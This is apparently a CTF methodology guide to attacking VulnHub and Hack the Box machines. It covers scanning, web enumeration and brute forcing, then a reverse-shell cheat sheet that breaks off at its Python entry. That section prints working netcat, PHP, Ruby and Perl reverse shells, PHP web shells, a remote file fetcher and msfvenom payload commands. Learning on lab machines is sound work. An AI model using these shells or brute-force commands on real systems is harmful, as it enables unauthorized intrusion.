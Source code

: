 ********************************
CTF Series : Vulnerable Machines
********************************

This post (Work in Progress) records what we learned by doing vulnerable machines provided by `VulnHub <https://vulnhub.com>`_, `Hack the Box <https://hackthebox.eu>`_ and others. The steps below could be followed to find vulnerabilities, exploit these vulnerabilities and finally achieve system/ root.

Once you download a virtual machines from `VulnHub <https://vulnhub.com>`_  you can run it by using virtualisation software such as VMware or Virtual Box.

We would like to **thank g0tm1lk** for maintaining **Vulnhub** and the **moderators** of **HackTheBox**. Also, **shout-outs** are in order for each and every **author of Vulnerable Machines and/ or write-ups**. Thank you for providing these awesome challenges to learn from and sharing your knowledge with the IT security community! **Thank You!!**

Generally, we go through the following stages when solving a vulnerable machine:

* :ref:`finding-the-ip-address`
* :ref:`port-scanning`
* :ref:`rabbit-holes`
* :ref:`from-nothing-to-unprivileged-shell`
* :ref:`unprivileged-shell-to-privileged-shell`

In this blog post, we have mentioned, what can be done in each separate stage. Furthermore, we have also provided :ref:`tips-and-tricks` for solving vulnerable VMs. Additionally :doc:`LFF-IPS-P2-VulnerabilityAnalysis` could be referred for exploitation of any particular services (i.e. it provides information such as "If you have identified service X (like ssh, Apache tomcat, JBoss, iscsi etc.), how they can be exploited"). Lastly there are also appendixes related to 

- :ref:`A1-Local-file-Inclusion`
- :ref:`A2-File-Upload`
- :ref:`A3-Tranfer-Files-From-Linux-to-Windows`
- :ref:`A4-Linux-Group-Membership-Issues`
- :ref:`A5-Coding-Languages-Tricks`

.. _finding-the-ip-address:

Finding the IP address
======================

Before, exploiting any machine, we need to figure out its IP address.

Netdiscover
-----------

An active/ passive arp reconnaissance tool

::

  netdiscover [options] 
  -i interface : The network interface to sniff and inject packets on. 
  -r range : Scan a given range instead performing an auto scan.

  Example: 
  netdiscover -i eth0/wlan0/vboxnet0/vmnet1 -r 192.168.1.0/24 
	
Interface names of common Virtualisation Software:

* Virtualbox : vboxnet 
* Vmware     : vmnet 

Nmap
----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 
  -sP/-sn Ping Scan -disable port scan 

Example:

::

 nmap -sP/-sn 192.168.1.0/24

.. _port-scanning:

Port Scanning
=============
	
Port scanning provides a large amount of information about open (exposed) services and possible exploits that may target these services. 

Common port scanning software include: nmap, unicornscan, netcat (when nmap is not available).

Nmap
-----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 

  HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan 
  -sn/-sP: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery

  SCAN TECHNIQUES: 
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans 
  -sU: UDP Scan -sN/sF/sX: TCP Null, FIN, and Xmas scans

  PORT SPECIFICATION: 
  -p : Only scan specified ports 
  Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9

  SERVICE/VERSION DETECTION: 
  -sV: Probe open ports to determine service/version info

  OUTPUT: 
  -oN/-oX/-oS/-oG : Output scan in normal, XML,Output in the three major formats at once 
  -v: Increase verbosity level (use -vv or more for greater effect)

  MISC: -6: Enable IPv6 scanning -A: Enable OS detection, version detection, script scanning, and traceroute

Unicornscan
-----------

A port scanner that utilizes its own userland TCP/IP stack, which allows it to run asynchronous scans. It can scan 65,535 ports in a relatively short time frame.

As unicornscan is faster then nmap it makes sense to use it for scanning large networks or a large number of ports. The idea is to use unicornscan to scan all ports, and make a list of those ports that are open and pass them to nmap for service detection. Superkojiman has written `onetwopunch <https://github.com/superkojiman/onetwopunch>`_ for this.

::  

   unicornscan [options] X.X.X.X/YY:S-E 
     -i, --interface : interface name, like eth0 or fxp1, not normally required 
     -m, --mode : scan mode, tcp (syn) scan is default, U for udp T for tcp \`sf' for tcp connect scan and A for arp for -mT you can also specify tcp flags following the T like -mTsFpU for example that would send tcp syn packets with (NO Syn\|FIN\|NO Push\|URG)

     Address ranges are in cidr notation like 1.2.3.4/8 for all of 1.?.?.?, if you omit the cidr mask /32 is implied. 
     Port ranges are like 1-4096 with 53 only scanning one port, **a** for all 65k and p for 1-1024

    example: unicornscan 192.168.1.5:1-4000 gateway:a would scan port 1 - 4000 for 192.168.1.5 and all 65K ports for the host named gateway.

Netcat 
------

Netcat might not be the best tool to use for port scanning, but it can be used quickly. While Netcat scans TCP ports by default it can perform UDP scans as well.

TCP Scan
^^^^^^^^

For a TCP scan, the format is:

::

  nc -vvn -z xxx.xxx.xxx.xxx startport-endport

     -z flag is Zero-I/O mode (used for scanning)
     -vv will provide verbose information about the results
     -n flag allows to skip the DNS lookup

UDP Scan
^^^^^^^^

For a UDP Port Scan, we need to add -u flag which makes the format:

::

  nc -vvn -u -z xxx.xxx.xxx.xxx startport-endport


If we have windows machine without nmap, we can use `PSnmap <https://www.powershellgallery.com/packages/PSnmap/>`_


Amap - Application mapper
-------------------------

When portscanning a host, you will be presented with a list of open ports. In many cases, the port number tells you which application is running. Port 25 is usually SMTP, port 80 mostly HTTP. However, this is not always the case, and especially when dealing with proprietary protocols running on non-standard ports you will not be able to determine which application is running.

By using **amap**, we can identify which services are running on a given port. For example is there a SSL server running on port 3445 or some oracle listener on port 23? Note that the application can also handle services that requires SSL. Therefore it will perform an SSL connect followed by trying to identify the SSL-enabled protocol!. e.g.  One of the vulnhub VM's was running http and https on the same port.

::

  amap -A 192.168.1.2 12380 
  amap v5.4 (www.thc.org/thc-amap) started at 2016-08-10 05:48:09 - APPLICATION MAPPING mode
  Protocol on 192.168.1.2:12380/tcp matches http 
  Protocol on 192.168.1.2:12380/tcp matches http-apache-2 
  Protocol on 192.168.1.2:12380/tcp matches ntp 
  Protocol on 192.168.1.2:12380/tcp matches ssl
  Unidentified ports: none.
  amap v5.4 finished at 2016-08-10 05:48:16

.. _rabbit-holes:

Rabbit Holes
============

There will be instances when we will not able to find anything entry point such as any open port. The section below may provide some clues on how to get unstuck.

.. Note:: When in doubt, enumerate

.. _listen-to-the-interface:

Listen to the interface
------------------------

Many VMs send data on random ports therefore we recommend to listen to the local interface (vboxnet0 / vmnet) on which the VM is running. This can be done by using wireshark or tcpdump. For example, one of the vulnhub VMs, performs an arp scan and sends a SYN packet on port 4444, if something is listening on that port, it sends some data.

:: 

  tcpdump -i eth0

  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S], seq 861815232, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 4127458640 ecr 0], length 0
  18:02:04.096330 IP 192.168.56.1.4444 > 192.168.56.101.36327: Flags [R.], seq 0, ack 861815233, win 0, length 0
  18:02:04.098584 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.100773 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S],

While listening on port 4444, we might receive something like a base64 encoded string or some message.

::

  nc -lvp 4444
  listening on [any] 4444 …
  192.168.56.101: inverse host lookup failed: Unknown host
  connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 39519
  0IHNpbGVuY2Ugc3Vycm91bmRpbmcgeW91Lg0KWW91IGxvb2sgZWFzdCwgdGhlbiBzb3V0aCwgdGhlbiB3ZXN0LCBhbGwgeW91IGNhbiBzZWUgaXMgYSBncmVhdCB3YXN0ZWxh

DNS Server
----------

If the targeted machine is running a DNS Server and we have a possible domain name, we may try to figure out A, MX, AAAA records or try zone-transfer to figure out other possible domain names.

::

 host <domain> <optional_name_server>
 host -t ns <domain>                -- Name Servers
 host -t a <domain>                 -- Address
 host -t aaaa <domain>              -- AAAA record points a domain or subdomain to an IPv6 address
 host -t mx <domain>                -- Mail Servers
 host -t soa <domain>               -- Start of Authority
 host <IP>                          -- Reverse Lookup
 host -l <Domain Name> <DNS Server> -- Domain Zone Transfer
 
Example:

::

 host scanme.nmap.org
 scanme.nmap.org has address 45.33.32.156
 scanme.nmap.org has IPv6 address 2600:3c01::f03c:91ff:fe18:bb2f

.. Tip :: Usually, DNS runs on UDP Port. However, If DNS is running on TCP port, probably DNS Zone Transfer would be possible.

SSL Certificate
---------------

If the targeted machine is running an https server and we are getting an apache default webpage on hitting the https://IPAddress, virtual hosts would be probably in use. Check the alt-dns-name on the ssl-certificate, create an entry in hosts file (/etc/hosts) and check what is being hosted on these domain names by surfing to https://alt-dns-name.

nmap service scan result for port 443 (sample)

::

 | ssl-cert: Subject: commonName=examplecorp.com/organizationName=ExampleCorp Ltd./stateOrProvinceName=Attica/countryName=IN/localityName=Mumbai/organizationalUnitName=IT/emailAddress=admin@examplecorp.com
 | Subject Alternative Name: DNS:www.examplecorp.com, DNS:admin-portal.examplecorp.com


.. _from-nothing-to-unprivileged-shell:

From Nothing to a Unprivileged Shell
====================================

At this point, we would have an idea about the different services and service version running on the system. Besides the output given by nmap. It is also recommended to check what software is being used on the webservers (e.g. certain cms's)

searchsploit
------------

Exploit Database Archive Search

First of all, we check if the operating system and/ or the exposed services are vulnerable to exploits which are already available on the internet. For example, a vulnerable service webmin is present in one of the VMs which could be exploited to extract information from the system.

::

  root@kali:~# nmap -sV -A 172.16.73.128
  **********Trimmed**************
  10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
  |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  | ndmp-version: 
  |_  ERROR: Failed to get host information from server
  **********Trimmed**************

If we search for webmin with searchsploit, we will find different exploits available for it and we just have to use the correct one based on utility and the matching version.

::

  root@kali:~# searchsploit webmin
  **********Trimmed**************
  Description                                                                            Path
  ----------------------------------------------------------------------------------------------------------------
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit                   | /multiple/remote/1997.php
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit (perl)            | /multiple/remote/2017.pl
  Webmin 1.x HTML Email Command Execution Vulnerability                                | /cgi/webapps/24574.txt
  **********Trimmed**************

Once we have figured out which exploit to check we can read about it by using the file-number. For example: 1997, 2017, 24574 in the above case.

::

 searchsploit -x 24674


Searchsploit provides an option to read the nmap XML file and suggest vulnerabilities (Requires nmap -sV -x xmlfile).

::
  
  searchsploit
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version (e.g.: nmap -sV -oX file.xml).
                              Use "-v" (verbose) to try even more combinations


.. Tip :: If we don't manage to find an exploit for a specific version, it is recommended to check the notes of the exploits which are highlighted as they may be valid for lower versions too. For example Let's say we are searching for exploits in Example_Software version 2.1.3. However, version 2.2.2 contains multiple vulnerablities. Reading the description for 2.2.2 we find out it's valid for lower versions too.

SecLists.Org Security Mailing List Archive
------------------------------------------

There will be some days, when you won't find vulnerabilities with searchsploit. In this case, we should also check the `SecLists.Org Security Mailing List Archive <http://seclists.org/>`_, if someone has reported any bug(s) for that particular software that we can exploit. 

Google-Vulns
------------

It is suggested that whenever you are googling something,  you add words such as vulnerability, exploit, ctf, github, python, tool etc. to your search term. For example. Let's say, you are stuck in a docker or on a specific cms search for docker ctf or <cms_name> ctf/ github etc.

Webservices
-----------

If a webserver is running on a machine, we can start with running 
 
whatweb
^^^^^^^

Utilize whatweb to find what software stack a server is running.

::

 whatweb www.example.com
 http://www.example.com [200 OK] Cookies[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], Country[INDIA][IN], Email[infosecurity@zmail.example.com], Google-Analytics[Universal][UA-6386XXXXX-2], HTML5, HTTPServer[Example Webserver], HttpOnly[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], IP[XXX.XX.XX.208], JQuery[1.11.0], Kentico-CMS, Modernizr, Script[text/javascript], Title[Welcome to Example Website ][Title element contains newline(s)!], UncommonHeaders[cteonnt-length,x-cache-control-orig,x-expires-orig], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=9,IE=edge]


nikto
^^^^^
nikto - Scans a web server for known vulnerabilities. 

It will examine a web server to find potential problems and security vulnerabilities, including:

* Server and software misconfigurations
* Default files and programs
* Insecure files and programs
* Outdated servers and programs

dirb, wfuzz, dirbuster
^^^^^^^^^^^^^^^^^^^^^^

Furthermore, we can run the following programs to find any hidden directories.

* `DIRB <https://tools.kali.org/web-applications/dirb>`_ is a Web Content Scanner. It looks for existing (and/ or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analysing the response.
* `wfuzz <https://tools.kali.org/web-applications/wfuzz>`_ - a web application bruteforcer. Wfuzz might be useful when you are looking for webpage of a certain size. For example: Let's say, when we dirb we get 50 directories. Each directory containing an image. Often, we then need to figure out which image is different. In this case, we would figure out what's the size of the normal image and hide that particular response with wfuzz.
* `Dirbuster <https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project>`_ : DirBuster is a multi threaded java application designed to brute force directories and files names on web/ application servers. 
* `gobuster <https://github.com/OJ/gobuster>`_ : Gobuster is a tool used to brute-force URIs (directories and files) in web sites and DNS subdomains (with wildcard support). (golang can be installed using apt-get).


.. Tip :: Most likely, we will be using common.txt (/usr/share/wordlists/dirb/) . If it's doesn't find anything, it's better to double check with /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt which is a list of directories that where found on at least 2 different hosts when DirBuster project crawled the internet. Even if that doesn't work out, try searching with extensions such as .txt, .js, .html, .php. (.txt by default and rest application based)

.. Tip :: If using the dirb/ wfuzz wordlist doesn't result in any directories and the website contains a lot of text, it might be a good idea to use cewl to create a wordlist and utilize that as a dictionary to find hidden directories. Also, it sometimes make sense to dirb/wfuzz the IPAddress instead of the hostname like filesrv.example.com (Maybe found by automatic redirect)

.. Tip :: It's important to know that dirb shows the directories found based on the response code, so if a web-application shows 404 status code instead of 200, dirbuster would miss it. In that case, wfuzz or gobuster or Burpsuite would help as they check for response length too.

BurpSuite Spider
^^^^^^^^^^^^^^^^

There will be some cases when dirb/ dirbuster doesn't find anything. This happened with us on a Node.js web application. Burpsuite's spider helped in finding extra-pages which contained the credentials.


Parameter Fuzz?
^^^^^^^^^^^^^^^

Sometimes, we might have a scenario where we have a website which might be protected by a WAF.

::

 http://IP/example

Now, this "/example" might be a php or might be accepting a GET Parameter. In that case, we probably need to fuzz it. The hardest part is that we can only find the GET parameters by fuzzing "/example" if you get some errors from the application, so the goal is to fuzz using a special char as the parameter's value, something like: "/example?FUZZ=' "

::

 wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "User-Agent: SomethingNotObivousforWAF" "http://IP/example?FUZZ='"

The other things which we may try is putting a valid command such as 'ls, test' so it becomes FUZZ=ls or FUZZ=test

PUT Method
^^^^^^^^^^

Sometimes, it is also a good idea to check the various HTTP verbs that are available such as GET, PUT, DELETE, etc. This can be done by making an **OPTIONS** request.

Curl can be used to check the available options (supported http verbs):

::

  curl -X OPTIONS -v http://192.168.126.129/test/
  Trying 192.168.126.129…
  Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
  > OPTIONS /test/ HTTP/1.1
  > Host: 192.168.126.129
  > User-Agent: curl/7.47.0
  > Accept: /
  >
  < HTTP/1.1 200 OK
  < DAV: 1,2
  < MS-Author-Via: DAV
  < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
  < Allow: OPTIONS, GET, HEAD, POST
  < Content-Length: 0
  < Date: Fri, 29 Apr 2016 09:41:19 GMT
  < Server: lighttpd/1.4.28
  <
  * Connection #0 to host 192.168.126.129 left intact

The PUT method allows you to upload a file which can help us to get a shell on the machine. There are multiple methods available for uploading a file with the PUT method mentioned on `Detecting and exploiting the HTTP Put Method <http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html>`_ 

A few are:

* Nmap:

 ::

   nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

* curl:

 ::

   curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt

 or

 :: 

   curl -X PUT -d '
   curl -i -X PUT -H "Content-Type: application/xml; charset=utf-8" -d @"/tmp/some-file.xml" http://IPAddress/newpage
   curl -X PUT -d "text or data to put" http://IPAddress/destination_page
   curl -i -H "Accept: application/json" -X PUT -d "text or data to put" http://IPAddress/new_page

Wordpress
^^^^^^^^^

When faced with a website that makes use of the wordpress CMS one can run wpscan. Make sure you run \--enumerate u for enumerating usernames because by default wpscan doesn't run it. Also, scan for plugins

.. Note: wpscan by default scan username id from 1 to 10. We may need to manually set if we want more usernames to be enumerated.

::

  wpsscan
    --url       | -u <target url>       The WordPress URL/domain to scan.
    --force     | -f                    Forces WPScan to not check if the remote site is running WordPress.
    --enumerate | -e [option(s)]        Enumeration.
    option :
    	u        usernames from id 1 to 10
    	u[10-20] usernames from id 10 to 20 (you must write [] chars)
    	p        plugins
    	vp       only vulnerable plugins
    	ap       all plugins (can take a long time)
    	tt       timthumbs (vulnerability scanner)
    	t        themes
    	vt       only vulnerable themes
    	at       all themes (can take a long time)
    	Multiple values are allowed : "-e tt,p" will enumerate timthumbs and plugins

    	If no option is supplied, the default is "vt,tt,u,vp"
        (only vulnerable themes, timthumbs, usernames from id 1 to 10, only vulnerable plugins)

We can also use wpscan to bruteforce passwords for a given username 

::

  wpscan --url http://192.168.1.2 --wordlist wordlist.txt --username example_username

**Tips**

* wpscan scans the themes, plugins by passive scanning, if we are not finding anything, it might be good idea to do scanning with all plugins (ap) and all themes (at). Sometimes, plugin may fake their version, so probably, good idea to readme and check for vulns.
* If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible ways is to go to Appearance > Editor > Edit 404 Template.
* The configuration of worpdress is normally speaking stored in **wp-config.php**. If you are able to download it, you might be lucky and be able to loot plaintext username and passwords to the database or wp-admin page. 
* If the website is vulnerable for SQL-Injection. We should be able to extract the wordpress users and their password hashes. However, if the password hash is not crackable. Probably, check the wp-posts table as it might contain some hidden posts.
* Got wordpress credentials, maybe utilize `WPTerm <https://wordpress.org/plugins/wpterm/>`_ an xterm-like plugin. It can be used to run non-interactive shell commands from the WordPress admin dashboard.
* If there's a custom plugin created, it would probably be in the location

 ::

   http://IP/wp-content/plugins/custompluginname

.. Todo:: what is the (standard) format of a wp hash and where in the database is it stored? Elborate more on wp scanning and vulnerabilities?

Names? Possible Usernames & Passwords?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
   
Sometimes, when visiting webpages, you will find possible names of the employees working in the company. It is common practice to have a username based on your first/ last name. Superkojiman has written `namemash.py <https://gist.githubusercontent.com/superkojiman/11076951/raw/8b0d545a30fd76cb7808554b1c6e0e26bc524d51/namemash.py>`_ which could be used to create possible usernames. However, after completion we are left with a large amount of potential usernames with no passwords.

If the vulnerable machine is running a SMTP mail server, we can verify if a particular username exists or not.

* Using metasploit smtp\_enum module: Once msfconsole is running, use auxiliary/scanner/smtp/smtp\_enum, enter the RHOSTS (target address) and USER FILE containing the list of probable user accounts.
* Using VRFY command:
* Using RCPT TO command:

Once we have identified a pattern of username creation, we may modify namemash.py to generate usernames and check if they exist or not.

Brute forcing: hydra
^^^^^^^^^^^^^^^^^^^^

Hydra can be used to brute force login web pages

::

  -l LOGIN or -L FILE login with LOGIN name, or load several logins from FILE  (userlist)
  -p PASS  or -P FILE try password PASS, or load several passwords from FILE  (passwordlist)
  -U        service module usage details
  -e nsr additional checks, "n" for null password, "s" try login as pass, "r" try the reverse login as pass

hydra http-post-form:

:: 

   hydra -U http-post-form

**Help for module http-post-form**

Module http-post-form requires the page and the parameters for the web form.

The parameters take three ":" separated values, plus optional values.

::

  Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]

* First is the page on the server to send a GET or POST request to (URL).
* Second is the POST/GET variables (taken from either the browser, proxy, etc. with usernames and passwords being replaced with the "^USER^" and "^PASS^" placeholders (FORM PARAMETERS)
* Third is the string that it checks for an *invalid* login (by default). Invalid condition login check can be preceded by "F=", successful condition login check must be preceded by "S=". This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!
* The following parameters are optional:
  C=/page/uri          to define a different page to gather initial cookies from
  (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request ^USER^ and ^PASS^ can also be put into these headers!

 * Note: 

  * 'h' will add the user-defined header at the end regardless it's already being sent by Hydra or not.
  * 'H' will replace the value of that header if it exists, by the one supplied by the user, or add the header at the end

 * Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\). All colons that are not option separators should be escaped (see the examples above and below). You can specify a header without escaping the colons, but that way you will not be able to put colons in the header value itself, as they will be interpreted by hydra as option separators.

Examples:

:: 

 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
 "/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"

.. Todo:: Add a program/binary that an easier syntax, ncrack maybe? Elaborate on the examples, eg. what they will do once executed?

Reverse Shells
--------------

Once we have figured out some vulnerability or misconfiguration in a running service which allows us to make a connection back to our attack machine, we would like to set up a reverse shell. This can be done through version methods e.g. by using netcat, php, weevely, ruby, perl, python, java, jsp, bash tcp, Xterm, Lynx, Mysql. The section below has been mostly adapted from `PentestMonkey Reverse shell cheat sheet <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>`_  and `Reverse Shell Cheat sheet from HighOn.Coffee <https://highon.coffee/blog/reverse-shell-cheat-sheet/>`_ and more.

netcat (nc)
^^^^^^^^^^^

TCP Mode

* with the -e option

 ::

   nc -e /bin/sh 10.1.1.1 4444

* without -e option

 ::

   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

.. Tip :: f in this case is a file name, if you want to have more then one reverse shell with this method you will have to use another letter (a ... z) then the one you used intially. 

UDP Mode

Just use the UDP Mode (-u)

::

 nc -h
 [v1.10-41.1]
 connect to somewhere:	nc [-options] hostname port[s] [ports] ... 
 listen for inbound:	nc -l -p port [-options] [hostname] [port]
 options:
	-l			listen mode, for inbound connects
	-n			numeric-only IP addresses, no DNS
	-p port			local port number
	-u			UDP mode


PHP
^^^

* **PHP Web Shell**

 This is a kind of Web shell and not a reverse shell.

 We can create a new file say (shell.php) on the server containing

 :: 

   <?php system($_GET["cmd"]); ?>

 or

 :: 

   <?php echo shell_exec($_GET["cmd"]); ?>

 or

 ::

   <? passthru($_GET["cmd"]); ?>

 which can then be accessed by

 :: 

  http://IP/shell.php?cmd=id

 If there's a webpage which accepts phpcode to be executed, we can use curl to urlencode the payload and run it.

 ::

  curl -G -s http://10.X.X.X/somepage.php?data= --data-urlencode "html=<?php passthru('ls -lah'); ?>" -b "somecookie=somevalue" | sed '/<html>/,/<\/html>/d'
  
  -G When used, this option will make all data specified with -d, --data, --data-binary or --data-urlencode to be used in an HTTP GET request instead of the POST request that otherwise would be used. The data will be appended to the URL with a  '?' separator.
  -data-urlencode <data> (HTTP) Posts data, similar to the other -d, --data options with the exception that this performs URL-encoding. 
  -b, --cookie <data> (HTTP) Passes the data to the HTTP server in the Cookie header. It is supposedly the data previously received from the server in a "Set-Cookie:" line.  The data should be in the format "NAME1=VALUE1; NAME2=VALUE2".

 The sed command in the end

 ::

  sed '/<html>/,/<\/html>/d'

 deletes the content between <html> and </html> tag.

 If you also want to provide upload functionality (imagine, if we need to upload nc64.exe on Windows or other-binaries on linux), we can put the below code in the php file

 ::

  <?php 
   if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://yourIP/" . $_REQUEST['fupload']));
   };
   if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   }
  ?>

 The above can be accessed by 

 ::

  http://IP/shell.php?fupload=filename_on_your_webserver


* **PHP Meterpreter**

 We can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

 ::

  msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php

 We can set the multi-handler in metasploit by 

 ::
  
  use exploit/multi/handler
  set payload php/meterpreter/reverse_tcp
  set LHOST yourIP
  run

* **PHP Reverse Shell**

 The code below assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4 or 5 or 6.

 :: 

  php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

 The above can be connected to by listening on port 1337 by using nc.

Weevely
^^^^^^^

Weevely also generates a webshell

:: 

  weevely generate password /tmp/payload.php

which can then be called by

:: 

  weevely http://192.168.1.2/location_of_payload password

However, it was not as useful as php meterpreter or a reverse shell.

.. Todo:: Elobrate -> why wasn't it useful? iirc (really not sure) if you don't provide a password it will ask for it

Ruby
^^^^

:: 

  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Perl
^^^^

.. code-block :: perl 

  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python
^^^^^^

TCP

::  

